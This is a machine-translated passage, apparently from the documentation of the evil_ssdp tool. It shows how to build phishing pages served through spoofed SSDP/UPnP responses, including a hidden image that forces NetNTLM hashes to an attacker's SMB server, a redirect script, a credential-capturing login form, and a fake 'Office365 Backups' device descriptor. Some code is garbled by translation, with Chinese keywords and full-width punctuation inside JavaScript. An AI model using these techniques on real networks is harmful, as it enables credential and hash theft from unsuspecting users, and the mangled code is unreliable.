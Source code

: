在您的网络钓鱼页面(`**present.html**`)中，使用类似以下的变量来获得附加功能:

**#以下行将使用您提供的接口的 IP 地址或可选指定的 IP 地址发起 NetNTLM 质询/响应:**
<img src = " file:////$ SMB _ server/SMB/hash . jpg " style = " display:none；"/>
**#以下将利用可选地指定 URL 重定向。这在与基本身份验证一起使用以重定向到有效站点时非常方便。这一行是内置到 microsoft-azure 模板中的:**
<script>
var URL = " $ redirectUrl "；
如果(网址！= " "){
document . location = URL；
}
</script>
#如果使用 HTTP 表单捕获明文凭证，请使用如下代码。此外，任何进行 POST 请求的模板都将自动支持'-u '参数，以便在 POST 完成后进行重定向。该工具将监视到此 URL 的帖子以获取凭据:
<form method = " POST " action = "/ssdp/do _ log in . html " name = " LoginForm ">

该工具目前只能正确创建 UPNP“基本”设备类型的设备，但它可以响应所有设备类型的 SSDP 查询。如果您非常了解 UPNP，您可以使用正确的参数创建一个新模板，以满足其他设备类型的请求。在开发特定应用程序以及他们期望和利用 UPNP 设备的方式方面，还有很多需要探索的地方。

**技术细节**

操作系统(Windows、MacOS、Linux、IOS、Android 等)和应用程序(Spotify、Youtube 等)使用简单服务发现协议(SSDP)来发现本地网络上的共享设备。它是发现和宣传通用即插即用(UPNP)设备的基础。

尝试发现共享网络资源的设备将向端口 1900 上的 239.255.255.250 发送 UDP 组播。源端口是随机的。请求示例如下所示:

**M-SEARCH * HTTP/1.1
Host:239 . 255 . 255 . 250:1900
ST:UPnP:root device
Man:" ssdp:discover "
MX:3**

为了与这个主机交互，我们需要捕获源端口和‘ST’(服务类型)报头。响应必须发送到正确的源端口，并且应该包含正确的 ST 报头。请注意，不仅仅是 Windows 操作系统在寻找设备，扫描典型的网络将显示来自操作系统内部应用程序(如 Spotify)、手机和其他媒体设备的大量请求。只有当你回复正确的 ST 时，Windows 才会合作，其他来源更宽松。

evil_ssdp 将提取请求的 ST 并发送如下响应:

**HTTP/1.1 200 OK**
**CACHE-CONTROL:**max-age = 1800
**DATE:**Tue，2018 年 10 月 16 日 20:17:12 GMT
**EXT:**
**LOCATION:**HTTP://192 . 168 . 1 . 214:8888/ssdp/device-desc . XML
ns = 01
**01-NLS:**uuid:7f 7 cc 7 e 1-b631-86f 0-EB B2-3f 4504 b 58 f 5 c
**服务器:**UPnP/1.0
**ST:**UPnP:root device
**USN:**uuid:7f 7 cc 7 e 1-b631-86f 0-EB B2-33UPNP . ORG:0
CONFIGID。UPNP 网站: 1

头(特别是位置、01-NLS、ST 和 USN)是动态构建的。这告诉请求者在哪里可以找到关于我们设备的更多信息。这里，我们强制 Windows(和其他请求者)访问我们的“设备描述符”xml 文件并解析它。USN 只是一个随机的字符串，只需要是唯一的并且格式正确。

evil_ssdp 将从选择的模板文件夹中提取“device.xml”文件，并动态插入一些变量，如您的 IP 地址。在这个“设备描述符”文件中，你可以自定义一些听起来有趣的友好名称和描述。看起来是这样的:

```
<?xml version="1.0"?>
<root >
  <specVersion>
    <major>1</major>
    <minor>0</minor>
  </specVersion>
  <URLBase>http://$local_ip:$local_port</URLBase>
  <device>
    <presentationURL>http://$local_ip:$local_port/present.html</presentationURL>
    <deviceType>urn:schemas-upnp-org:device:Basic:1</deviceType>
    <friendlyName>Office365 Backups</friendlyName>
    <modelDescription>Secure Storage for Office365</modelDescription>
    <manufacturer>MS Office</manufacturer>
    <modelName>Office 365 Backups</modelName>
```